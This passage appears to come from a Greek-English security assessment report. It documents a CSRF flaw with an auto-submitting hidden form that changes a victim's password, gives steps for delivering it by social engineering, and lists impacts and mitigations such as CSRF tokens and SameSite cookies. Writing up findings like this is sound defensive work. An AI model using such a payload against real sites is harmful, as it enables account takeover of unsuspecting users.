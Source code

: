 **Βήμα 2: Create Malicious Form**
```html
<html>
<body onload="document.forms[0].submit()">
<form action="http://localhost/profile/change-password" method="POST">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
</form>
</body>
</html>
```

**Βήμα 3: Exploitation via Social Engineering**
- Host malicious page
- Send link to victim
- When victim visits while logged in → password changes

#### 4.3.3 Screenshots / Proof of Concept
[PLACEHOLDER: Screenshot of CSRF exploit page]
[PLACEHOLDER: Screenshot showing successful password change]

#### 4.3.4 Επιπτώσεις (Impact)
- **Account Takeover:** Αλλαγή password χωρίς τη γνώση του χρήστη
- **Unauthorized Actions:** Εκτέλεση ενεργειών εκ μέρους του θύματος
- **Financial Loss:** Unauthorized purchases

#### 4.3.5 Προτάσεις Αντιμετώπισης
1. **Implement CSRF Tokens**
```python
# Django example
{% csrf_token %}

# Verify token server-side
if not csrf_token_valid(request):
    return HttpResponseForbidden()
```

2. **SameSite Cookie Attribute**
```http
Set-Cookie: sessionid=abc123; SameSite=Strict
```

3. **Re-authentication για critical actions**
4. **Check Referer header**

---

### 4.4 ΕΥΠΑΘΕΙΑ #4: Broken Authentication - User Enumeration

#### 4.4.1 Περιγραφή της Ευπάθειας
**Severity:** MEDIUM (CVSS 3.1: 5.3)  
**CWE ID:** CWE-204  
**OWASP Category:** A07:2021 – Identification and Authentication Failures
